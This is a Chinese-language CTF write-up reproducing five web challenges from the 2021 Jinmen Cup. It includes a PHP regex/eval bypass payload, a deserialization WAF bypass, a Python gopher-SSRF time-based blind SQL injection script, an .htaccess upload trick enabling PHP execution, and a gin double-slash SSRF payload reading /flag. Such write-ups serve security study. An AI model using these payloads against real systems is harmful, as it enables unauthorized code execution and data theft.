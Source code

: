 # Nepnep学习报告 web第六周

- 津门杯复现

## [津门杯2021]hate_php 

源码

```php
<?php
error_reporting(0);
if(!isset($_GET['code'])){
    highlight_file(__FILE__);
}else{
    $code = $_GET['code'];
    if(preg_match("/[A-Za-z0-9_$@]+/",$code)){
        die('fighting!'); 
    }
    eval($code);
}
```

本地测的和实际环境相差真的很大, 还有的是比赛的时候没想到通配符,看到这个正则自然而然认为异或绕过

```
("%10%08%10%09%0e%06%0f"^"%60%60%60%60%60%60%60")("%00%10"^"%2d%21");
```

本地测的这个没问题但是比赛环境最后只支持这个payload

```
?><?=`/???/???%20/*`;?>
```

需要闭合前面的然后单独执行后面的语句, 根目录里找到flag

![20210512105511541](https://raw.githubusercontent.com/Ricky-369369/Rickyweb/main/Nepnep/Probation/img/20210512105511541.png)

## [津门杯2021]power_cut 

停电了 > /.index.php.swp

然后发现waf是替换为空,双写绕过

```php
class weblog {
    public $weblogfile = "/flag";
}
$a = new weblog();
echo str_replace('flag','flflagag',serialize($a));
```

log GET传参得到flag

![20210512113606810](https://raw.githubusercontent.com/Ricky-369369/Rickyweb/main/Nepnep/Probation/img/20210512113606810.png)

## [津门杯2021]easysql

源码

```php
<?php
highlight_file(__FILE__);
    session_start();
    $url = $_GET['url'] ?? false;
    if($url)
    {
    $a = preg_match("/file|dict/i", $url);
        if ($a==1)
        {
            exit();
        }

            $ch = curl_init();
            curl_setopt($ch, CURLOPT_URL, $_GET["url"]);
            curl_setopt($ch, CURLOPT_HEADER, 0);
            curl_exec($ch);
            curl_close($ch);
     }

?> 
```

通过SSRF访问内网的 admin.php 进行 sql注入, 打内网用 **time.time()** 比 **timeout** 好, 脚本如下

```python
# -*-coding:utf-8-*-
from urllib.parse import quote
from requests import *
import time

url = 'http://121.36.147.29:20001/?url='

test =\
"""POST /admin.php HTTP/1.1
Content-Type: application/x-www-form-urlencoded
X-Forwarded-For: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:88.0) Gecko/20100101 Firefox/88.0
Accept: */*
Host: 127.0.0.1
Content-Length: {}
Connection: close

{}
"""
sess = session()

def gopher(payload):
    global test
    exp = test.format(len(payload), payload)
    tmp = quote(exp)
    new = tmp.replace('%0A','%0D%0A')
    result = '_'+new
    res = 'gopher://127.0.0.1:80/'+quote(result)
    # print(res+'\n')
    return res

flag = ''
for i in range(1, 1000):
    low = 32
    high = 127
    while low < high:
        mid = (low + high) >> 1
        # payload = f"poc=if((select ascii(substr(database(),{i},1)))>{mid},sleep(0.2),1)"
        payload = f'poc=if((select ascii(substr((select flag from flag),{i},1)))>{mid},sleep(0.2),1)'
        before_time = time.time()
        print(payload)
        tmp_r = gopher(payload)
        tmp_url = url+tmp_r
        # print(tmp_url)
        r = sess.get(url=tmp_url)
        after_time = time.time()
        offset = after_time - before_time
        if (offset > 2):
            low = mid + 1
        else:
            high = mid

    if low != 32:
        flag += chr(low)
        print(flag)
    else:
        break
# flag{VqvjbS1O8A1gVWa2aPF44ruiELruVDP1}
```

结果

![20210516194109357](https://raw.githubusercontent.com/Ricky-369369/Rickyweb/main/Nepnep/Probation/img/20210516194109357.png)

## [津门杯2021]Uploadhub

给了源码, 发现 if 判断这一块写错了...没用上 `$allow_type` 导致可以任意文件上传

```php
if ($_FILES["file"]["error"] > 0 && !in_array($fileext,$type) && $_FILES["file"]["size"] > 204800){
            die('upload error');
```

看到 apache.conf 里面注释了 upload 下的文件不支持php解析

```
<Directory ~ "/var/www/html/upload/[a-f0-9]{32}/">
        php_flag engine off
</Directory>
```

一开始打算是目录穿梭绕过但是本地测试发现 `$filename` 验证那里会直接把 `../` 过滤掉, 考了一个配置的知识点

> 配置文件的`<directory>` 晚于`.htaccess`执行 

然后上传 `.htaccess` 解析 php 文件

```
<Files "*.php">
php_flag engine on
</Files>
```

然后找到 flag 的位置用 file_get_contents 读取

```
var_dump(file_get_contents('/flag'));
```

结果

![20210516204019501](https://raw.githubusercontent.com/Ricky-369369/Rickyweb/main/Nepnep/Probation/img/20210516204019501.png)

## [津门杯2021]GoOSS

本地80端口可以任意文件读取

```php
<?php
// php in localhost port 80
readfile($_GET['file']);
?>
```

审计 main.go 发现有个 302 跳转

```go
if fi.IsDir() {
	if !strings.HasSuffix(c.Request.URL.String(), "/") {
		c.Redirect(302,c.Request.URL.String()+"/")
```

需要满足 IsDIr(), 本地调试发现末尾多加了 `/..` 的时候会被判定为目录触发302

> `gin-gonic/gin`特性: 双`//`即可触发SSRF 

payload

```
{"url": "http://127.0.0.1:1234//localhost?file=../../../../../flag&dir=../.."}
```

结果

![20210516210159772](https://raw.githubusercontent.com/Ricky-369369/Rickyweb/main/Nepnep/Probation/img/20210516210159772.png)

## 总结

- 备份文件泄露
- gopher协议ssrf攻击内网
- apache文件与.htaccess解析优先级区分
- go语言的目录判断和gin特性

